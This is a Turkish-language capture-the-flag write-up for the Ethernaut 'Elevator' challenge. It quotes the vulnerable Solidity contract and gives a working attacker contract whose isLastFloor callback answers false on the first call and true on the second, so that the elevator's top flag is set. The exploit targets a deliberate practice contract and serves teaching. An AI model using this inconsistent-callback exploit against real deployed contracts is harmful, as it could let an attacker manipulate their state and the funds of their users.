 # ETHERNAUT SORU 11: Elevator

> This elevator won't let you reach the top of your building. Right?
>
>##### Things that might help:
>
>-   Sometimes solidity is not good at keeping promises.
>-   This `Elevator` expects to be used from a `Building`.



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

Bu soruda çağırıldığına onu çağıran adresteki bir fonksiyonu çağırmak isteyen bir kontrakt görüyoruz. Bu fonksiyon kendisine verilen `floor` sayısına `boolean` bir cevap vermelidir. İlk cevabı negatif, 2. cevabı ise pozitif olacaktır. 

Bizim amacımız ise bu şartları sağlayan bir fonksiyon yazıp `top` değişkenine pozitif değeri verdirtmek. Bunun için şöyle bir kontrakt yazabiliriz.

```solidity
// SPDX-License-Identifier: MIT
pragma  solidity  ^0.8.0;
import  "chall.sol";

contract Solution is Building{
bool ilk_mi=true;
Elevator elev;
function isLastFloor(uint256)  external  returns  (bool){
if  (ilk_mi){
	ilk_mi=false;
	return  false;
	}

return  true;
}

function basla(address victim)  public{
elev = Elevator(victim);
elev.goTo(5);
  
	}
}
```
Bu kod basla fonksiyonu çağırıldığında hedef kontraktın `goTo` fonksiyonunu 5 değerini vererek çalıştırıyor(istediğimiz değeri verebiliriz fark etmez). Böylelikle o hedef kontrakt bizim `isLastFloor` fonksiyonumuzu çağırmış oluyor. Bu fonksiyon ilk çağırıldığında olumsuz yanıt verirken 2. de ise olumlu yanıt veriyor. Böylelikle soru çözülmüş oluyor.
